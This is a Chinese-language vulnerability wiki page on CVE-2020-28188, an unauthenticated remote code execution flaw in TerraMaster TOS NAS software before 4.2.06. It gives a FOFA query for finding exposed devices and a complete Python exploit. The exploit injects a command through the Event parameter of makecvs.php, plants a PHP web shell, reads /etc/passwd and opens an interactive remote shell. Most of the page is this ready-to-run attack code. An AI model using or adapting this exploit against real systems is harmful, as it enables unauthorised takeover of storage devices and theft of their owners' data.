 # TerraMaster TOS RCE CVE-2020-28188

## 漏洞描述

TerraMaster TOS 4.2.06 以下中 makecvs.php 存在任意文件写入，攻击者可以上传恶意文件控制服务器

## 漏洞影响

> [!NOTE]
>
> TerraMaster TOS < 4.2.06

## FOFA

> [!NOTE]
>
> "TerraMaster" && header="TOS"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/tm-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

存在漏洞的为 **/include/makecvs.php** 中的Event参数

使用EXP文件上传并执行命令

![](http://wikioss.peiqi.tech/vuln/tm-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞POC

```python
# Exploit Title: TerraMaster TOS 4.2.06 - RCE (Unauthenticated)
# Date: 12/12/2020
# Exploit Author: IHTeam
# Full Write-up: https://www.ihteam.net/advisory/terramaster-tos-multiple-vulnerabilities/
# Vendor Homepage: https://www.terra-master.com/
# Version: <= 4.2.06
# Tested on: 4.1.30, 4.2.06

#!/usr/bin/env python3
import argparse
import requests
import time
import sys
import urllib.parse
from requests.packages.urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

parser = argparse.ArgumentParser(description="TerraMaster TOS <= 4.2.06 Unauth RCE")
parser.add_argument('--url', action='store', dest='url', required=True, help="Full URL and port e.g.: http://192.168.1.111:8081/")
args = parser.parse_args()

url = args.url
headers = {'User-agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.121 Safari/537.36'}
epoch_time = int(time.time())
shell_filename = "debug"+str(epoch_time)+".php"

def check_endpoint(url, headers):
	response = requests.get(url+'/version', headers=headers, verify=False)
	if response.status_code == 200:
		print("[+] TerraMaster TOS version: ", str(response.content))
	else:
		print("\n[-] TerraMaster TOS response code: ", response.status_code)
		sys.exit()
		
def upload_shell(url, headers, shell_filename):
	payload = "http|echo \"<?php echo(passthru(\\$_GET['cmd']));?>\" >> /usr/www/"+shell_filename+" && chmod +x /usr/www/"+shell_filename+"||"
	payload = urllib.parse.quote(payload, safe='')
	print("[/] Uploading shell...")
	response = requests.get(url+'/include/makecvs.php?Event='+payload, headers=headers, verify=False)
	time.sleep(1)
	response = requests.get(url+'/'+shell_filename+'?cmd=cat /etc/passwd', headers=headers, verify=False)
	if ('root:' in str(response.content, 'utf-8')):
		print("[+] Upload succeeded")
	else:
		print("\n[-] Error uploading shell: ", response.content)
		sys.exit()

def interactive_shell(url, headers, shell_filename, cmd):
	response = requests.get(url+'/'+shell_filename+'?cmd='+urllib.parse.quote(cmd, safe=''), headers=headers, verify=False)
	print(str(response.text)+"\n")


def delete_shell(url, headers, shell_filename):
	delcmd = "rm /usr/www/"+shell_filename
	response = requests.get(url+'/'+shell_filename+'?cmd='+urllib.parse.quote(delcmd, safe=''), headers=headers, verify=False)
	print("\n[+] Shell deleted")

upload_shell(url, headers, shell_filename)
try:
	while True:
		cmd = input("# ")
		interactive_shell(url, headers, shell_filename, cmd)
except:
	delete_shell(url, headers, shell_filename)
            
```

